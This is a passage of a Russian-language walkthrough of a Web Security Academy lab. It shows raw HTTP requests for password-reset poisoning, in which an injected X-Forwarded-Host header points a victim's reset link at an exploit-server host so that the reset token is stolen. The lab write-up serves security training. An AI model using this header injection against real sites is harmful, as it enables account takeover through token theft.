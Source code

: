 Ничего не изменилось. Ладно. Попробую получить ссылку для восстановления. Я восстановил почту и отправил запрос на сброс пароля. Получил вот такую ссылку:

```
https://0af60053036976e780d1fd8b009000a3.web-security-academy.net/forgot-password?temp-forgot-password-token=0t62dq17daqcgjygfv11zv7bkt4j0emk
```

Проделав все эти шаги, я получил запрос, с помощью которого изменяется пароль:

```http
POST /forgot-password?temp-forgot-password-token=mg13no2o74wta0a13z9b2z33nnz9g8uo HTTP/2
Host: 0af60053036976e780d1fd8b009000a3.web-security-academy.net
Cookie: session=gQhAp2tHdtS62xh6kW1cTuUdkL8gK5zO
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:142.0) Gecko/20100101 Firefox/142.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0af60053036976e780d1fd8b009000a3.web-security-academy.net/forgot-password?temp-forgot-password-token=mg13no2o74wta0a13z9b2z33nnz9g8uo
Content-Type: application/x-www-form-urlencoded
Content-Length: 101
Origin: https://0af60053036976e780d1fd8b009000a3.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

temp-forgot-password-token=mg13no2o74wta0a13z9b2z33nnz9g8uo&new-password-1=peter&new-password-2=
```

Итог: для сброса пароля нужно получить `temp-forgot-password-token`. Погуляв по запросам, я так и не смог его найти. Значит его нужно украсть. Как? Вопрос то хороший. У нас есть возможность отправить письмо жертве. Буду копать в эту сторону.

Попробую подставить заголовок `X-Forward-Host` в свой запрос.

```http
POST /forgot-password HTTP/2
Host: 0ad6006c036f335d80bd12c1003500dd.web-security-academy.net
Cookie: session=9AUyI5SFoyAibYfN1uEZ33qBzWoBMd4Q
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:142.0) Gecko/20100101 Firefox/142.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ad6006c036f335d80bd12c1003500dd.web-security-academy.net/forgot-password
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: https://0ad6006c036f335d80bd12c1003500dd.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
X-Forwarded-Host: exploit-0a06006703a2337280a5112f01d700f6.exploit-server.net

username=wiener
```
